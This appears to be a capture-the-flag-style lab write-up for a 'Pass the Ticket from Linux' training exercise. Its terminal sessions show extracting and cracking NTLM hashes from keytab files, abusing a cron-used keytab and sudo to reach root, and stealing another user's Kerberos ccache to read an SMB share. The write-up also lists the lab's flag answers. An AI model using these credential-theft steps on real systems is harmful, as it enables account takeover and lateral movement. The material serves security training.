

# Section 22: Pass the Ticket (PtT) from Linux

Module: 10. Password Attacks

---

## Questions & Answers

### 1. Connect to the target machine using SSH to the port TCP/2222 and the provided credentials. Read the flag in David's home directory.

Context:
```bash
┌─[eu-academy-2]─[10.10.14.98]─[htb-ac-2162140@htb-vkrahbv0kp]─[~]
└──╼ [★]$ ssh david@inlanefreight.htb@10.129.140.144 -p 2222
The authenticity of host '[10.129.140.144]:2222 ([10.129.140.144]:2222)' can't be established.
ED25519 key fingerprint is SHA256:HfXWue9Dnk+UvRXP6ytrRnXKIRSijm058/zFrj/1LvY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.129.140.144]:2222' (ED25519) to the list of known hosts.
david@inlanefreight.htb@10.129.140.144's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 05 Aug 2026 07:52:18 AM UTC

  System load:  0.02               Processes:               216
  Usage of /:   26.3% of 13.70GB   Users logged in:         0
  Memory usage: 25%                IPv4 address for ens160: 172.16.1.15
  Swap usage:   0%

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

3 updates can be applied immediately.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Oct 25 13:23:44 2022 from 172.16.1.5
david@inlanefreight.htb@linux01:~$ ls
flag.txt
david@inlanefreight.htb@linux01:~$ cat flag.txt
Gett1ng_Acc3$$_to_LINUX01
```

**Answer:** `Gett1ng_Acc3$$_to_LINUX01`

---

### 2. Which group can connect to LINUX01?

Context:
```bash
david@inlanefreight.htb@linux01:~$ realm list
inlanefreight.htb
  type: kerberos
  realm-name: INLANEFREIGHT.HTB
  domain-name: inlanefreight.htb
  configured: kerberos-member
  server-software: active-directory
  client-software: sssd
  required-package: sssd-tools
  required-package: sssd
  required-package: libnss-sss
  required-package: libpam-sss
  required-package: adcli
  required-package: samba-common-bin
  login-formats: %U@inlanefreight.htb
  login-policy: allow-permitted-logins
  permitted-logins: david@inlanefreight.htb, julio@inlanefreight.htb
  permitted-groups: Linux Admins
```

**Answer:** `Linux Admins`

---

### 3. Look for a keytab file that you have read and write access. Submit the file name as a response.

Context:
```bash
david@inlanefreight.htb@linux01:~$ find / -name *keytab* -ls 2>/dev/null

   287437      4 -rw-r--r--   1 root     root         2110 Aug  9  2021 /usr/lib/python3/dist-packages/samba/tests/dckeytab.py
   288276      4 -rw-r--r--   1 root     root         1871 Oct  4  2022 /usr/lib/python3/dist-packages/samba/tests/__pycache__/dckeytab.cpython-38.pyc
   287720     24 -rw-r--r--   1 root     root        22768 Jul 18  2022 /usr/lib/x86_64-linux-gnu/samba/ldb/update_keytab.so
   286812     28 -rw-r--r--   1 root     root        26856 Jul 18  2022 /usr/lib/x86_64-linux-gnu/samba/libnet-keytab.so.0
   131610      4 -rw-------   1 root     root         2694 Aug  5 07:40 /etc/krb5.keytab
   262464     12 -rw-r--r--   1 root     root        10015 Oct  4  2022 /opt/impacket/impacket/krb5/keytab.py
   262620      4 -rw-rw-rw-   1 root     root          216 Aug  5 08:00 /opt/specialfiles/carlos.keytab
   131201      8 -rw-r--r--   1 root     root         4582 Oct  6  2022 /opt/keytabextract.py
   287958      4 drwx------   2 sssd     sssd         4096 Jun 21  2022 /var/lib/sss/keytabs
   398204      4 -rw-r--r--   1 root     root          380 Oct  4  2022 /var/lib/gems/2.7.0/doc/gssapi-1.3.1/ri/GSSAPI/Simple/set_keytab-i.ri
```

**Answer:** `carlos.keytab`

---

### 4. Extract the hashes from the keytab file you found, crack the password, log in as the user and submit the flag in the user's home directory.

Context:
```bash
david@inlanefreight.htb@linux01:~$ python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
	REALM : INLANEFREIGHT.HTB
	SERVICE PRINCIPAL : carlos/
	NTLM HASH : a738f92b3c08b424ec2d99589a9cce60
	AES-256 HASH : 42ff0baa586963d9010584eb9590595e8cd47c489e25e82aae69b1de2943007f
	AES-128 HASH : fa74d5abf4061baa1d4ff8485d1261c4
```
Crack the NTLM Hash `Password5`
```bash
david@inlanefreight.htb@linux01:~$ su - carlos@inlanefreight.htb
Password: 
carlos@inlanefreight.htb@linux01:~$ ls
flag.txt  script-test-results.txt
carlos@inlanefreight.htb@linux01:~$ cat flag.txt 
C@rl0s_1$_H3r3
carlos@inlanefreight.htb@linux01:~$ 
```

**Answer:** `C@rl0s_1$_H3r3`

---

### 5. Check Carlos' crontab, and look for keytabs to which Carlos has access. Try to get the credentials of the user svc_workstations and use them to authenticate via SSH. Submit the flag.txt in svc_workstations' home directory.

Context:
```bash
carlos@inlanefreight.htb@linux01:~$ crontab -l
# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
# 
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').
# 
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command
*/5 * * * * /home/carlos@inlanefreight.htb/.scripts/kerberos_script_test.sh
carlos@inlanefreight.htb@linux01:~$ cat /home/carlos@inlanefreight.htb/.scripts/kerberos_script_test.sh
#!/bin/bash

kinit svc_workstations@INLANEFREIGHT.HTB -k -t /home/carlos@inlanefreight.htb/.scripts/svc_workstations.kt
smbclient //dc01.inlanefreight.htb/svc_workstations -c 'ls'  -k -no-pass > /home/carlos@inlanefreight.htb/script-test-results.txt

carlos@inlanefreight.htb@linux01:~$ ls -la /home/carlos@inlanefreight.htb/.scripts/
total 24
drwx------ 2 carlos@inlanefreight.htb domain users@inlanefreight.htb 4096 Aug  5 08:05 .
drwx---r-x 5 carlos@inlanefreight.htb domain users@inlanefreight.htb 4096 Oct 12  2022 ..
-rw------- 1 carlos@inlanefreight.htb domain users@inlanefreight.htb  146 Oct  6  2022 john.keytab
-rwx------ 1 carlos@inlanefreight.htb domain users@inlanefreight.htb  251 Oct  6  2022 kerberos_script_test.sh
-rw------- 1 carlos@inlanefreight.htb domain users@inlanefreight.htb  246 Aug  5 08:05 svc_workstations._all.kt
-rw------- 1 carlos@inlanefreight.htb domain users@inlanefreight.htb   94 Aug  5 08:05 svc_workstations.kt
carlos@inlanefreight.htb@linux01:~$ kinit svc_workstations@INLANEFREIGHT.HTB -k -t /home/carlos@inlanefreight.htb/.scripts/svc_workstations.kt
carlos@inlanefreight.htb@linux01:~$ klist
Ticket cache: FILE:/tmp/krb5cc_647402606_91JyEJ
Default principal: svc_workstations@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
08/05/2026 08:08:46  08/05/2026 18:08:46  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
	renew until 08/06/2026 08:08:46
carlos@inlanefreight.htb@linux01:~$ python3 /opt/keytabextract.py /home/carlos@inlanefreight.htb/.scripts/svc_workstations.kt
[!] No RC4-HMAC located. Unable to extract NTLM hashes.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[!] Unable to identify any AES128-CTS-HMAC-SHA1 hashes.
[+] Keytab File successfully imported.
	REALM : INLANEFREIGHT.HTB
	SERVICE PRINCIPAL : svc_workstations/
	AES-256 HASH : 0c91040d4d05092a3d545bbf76237b3794c456ac42c8d577753d64283889da6d
carlos@inlanefreight.htb@linux01:~$ smbclient //dc01.inlanefreight.htb/svc_workstations -k -no-pass
^C
carlos@inlanefreight.htb@linux01:~$ python3 /opt/keytabextract.py /home/carlos@inlanefreight.htb/.scripts/svc_workstations._all.kt
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
	REALM : INLANEFREIGHT.HTB
	SERVICE PRINCIPAL : svc_workstations/
	NTLM HASH : 7247e8d4387e76996ff3f18a34316fdd
	AES-256 HASH : 0c91040d4d05092a3d545bbf76237b3794c456ac42c8d577753d64283889da6d
	AES-128 HASH : 3a7e52143531408f39101187acc80677
```
- Crack the NTLM Hash got `Password4`:
```bash
carlos@inlanefreight.htb@linux01:~$ su - svc_workstations@inlanefreight.htb
Password: 
svc_workstations@inlanefreight.htb@linux01:~$ ls
flag.txt
svc_workstations@inlanefreight.htb@linux01:~$ cat flag.txt 
Mor3_4cce$$_m0r3_Pr1v$
```

**Answer:** `Mor3_4cce$$_m0r3_Pr1v$`

---

### 6. Check the sudo privileges of the svc_workstations user and get access as root. Submit the flag in /root/flag.txt directory as the response.

Context:
```bash
svc_workstations@inlanefreight.htb@linux01:~$ sudo -l
[sudo] password for svc_workstations@inlanefreight.htb: 
Matching Defaults entries for svc_workstations@inlanefreight.htb on linux01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User svc_workstations@inlanefreight.htb may run the following commands on linux01:
    (ALL) ALL
svc_workstations@inlanefreight.htb@linux01:~$ sudo su -
root@linux01:~# cat root/root.txt
cat: root/root.txt: No such file or directory
root@linux01:~# cat root/flag.txt
cat: root/flag.txt: No such file or directory
root@linux01:~# ls /root
flag.txt  snap
root@linux01:~# cat /root/flag.txt
Ro0t_Pwn_K3yT4b
root@linux01:~# 
```

**Answer:** `Ro0t_Pwn_K3yT4b`

---

### 7. Check the /tmp directory and find Julio's Kerberos ticket (ccache file). Import the ticket and read the contents of julio.txt from the domain share folder \\DC01\julio.

Context:
```bash
root@linux01:~# ls -la /tmp
total 76
drwxrwxrwt 13 root                               root                           4096 Aug  5 08:15 .
drwxr-xr-x 20 root                               root                           4096 Oct  6  2021 ..
drwxrwxrwt  2 root                               root                           4096 Aug  5 07:38 .font-unix
drwxrwxrwt  2 root                               root                           4096 Aug  5 07:38 .ICE-unix
-rw-------  1 julio@inlanefreight.htb            domain users@inlanefreight.htb 1414 Aug  5 08:15 krb5cc_647401106_4CPysb
-rw-------  1 julio@inlanefreight.htb            domain users@inlanefreight.htb 1406 Aug  5 08:15 krb5cc_647401106_HRJDux
-rw-------  1 david@inlanefreight.htb            domain users@inlanefreight.htb 2935 Aug  5 08:02 krb5cc_647401107_pSAJEW
-rw-------  1 svc_workstations@inlanefreight.htb domain users@inlanefreight.htb 1535 Aug  5 08:13 krb5cc_647401109_YvZDfK
-rw-------  1 carlos@inlanefreight.htb           domain users@inlanefreight.htb 1746 Aug  5 08:15 krb5cc_647402606
-rw-------  1 carlos@inlanefreight.htb           domain users@inlanefreight.htb 1746 Aug  5 08:09 krb5cc_647402606_91JyEJ
drwx------  3 root                               root                           4096 Aug  5 07:38 snap.lxd
drwx------  3 root                               root                           4096 Aug  5 07:38 systemd-private-809dd4a7fcea4e148e061c240b7b2457-ModemManager.service-WeeIYi
drwx------  3 root                               root                           4096 Aug  5 07:38 systemd-private-809dd4a7fcea4e148e061c240b7b2457-systemd-logind.service-LfBGzf
drwx------  3 root                               root                           4096 Aug  5 07:38 systemd-private-809dd4a7fcea4e148e061c240b7b2457-systemd-resolved.service-W3Uvuf
drwx------  3 root                               root                           4096 Aug  5 07:38 systemd-private-809dd4a7fcea4e148e061c240b7b2457-systemd-timesyncd.service-shCE5f
drwxrwxrwt  2 root                               root                           4096 Aug  5 07:38 .Test-unix
drwx------  2 root                               root                           4096 Aug  5 07:38 vmware-root_702-2722304542
drwxrwxrwt  2 root                               root                           4096 Aug  5 07:38 .X11-unix
drwxrwxrwt  2 root                               root                           4096 Aug  5 07:38 .XIM-unix
root@linux01:~# klist
klist: No credentials cache found (filename: /tmp/krb5cc_0)
root@linux01:~# cp /tmp/krb5cc_647401106_I8I133 .
cp: cannot stat '/tmp/krb5cc_647401106_I8I133': No such file or directory
root@linux01:~# export KRB5CCNAME=/root/krb5cc_647401106_I8I133
root@linux01:~# klist
klist: No credentials cache found (filename: /root/krb5cc_647401106_I8I133)
root@linux01:~# cp /tmp/krb5cc_647401106_4CPysb /root/julio.ccache
root@linux01:~# export KRB5CCNAME=/root/julio.ccache
root@linux01:~# klist
Ticket cache: FILE:/root/julio.ccache
Default principal: julio@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
08/05/2026 08:13:55  08/05/2026 18:13:55  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
	renew until 08/06/2026 08:13:55
root@linux01:~# smbclient //DC01/julio -k -no-pass
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jul 14 12:25:24 2022
  ..                                  D        0  Thu Jul 14 12:25:24 2022
  julio.txt                           A       17  Thu Jul 14 21:18:12 2022

		7706623 blocks of size 4096. 4459840 blocks available
smb: \> get julio.txt 
getting file \julio.txt of size 17 as julio.txt (2.4 KiloBytes/sec) (average 2.4 KiloBytes/sec)
smb: \> !cat julio.
cat: julio.: No such file or directory
smb: \> !cat julio.txt
JuL1()_SH@re_fl@g
```

**Answer:** `JuL1()_SH@re_fl@g`

---

### 8. Use the LINUX01$ Kerberos ticket to read the flag found in \\DC01\linux01. Submit the contents as your response (the flag starts with Us1nG_).

Context:


**Answer:** `Us1nG_KeyTab_Like_@_PRO`

---

[Back to Module Index](./README.md)
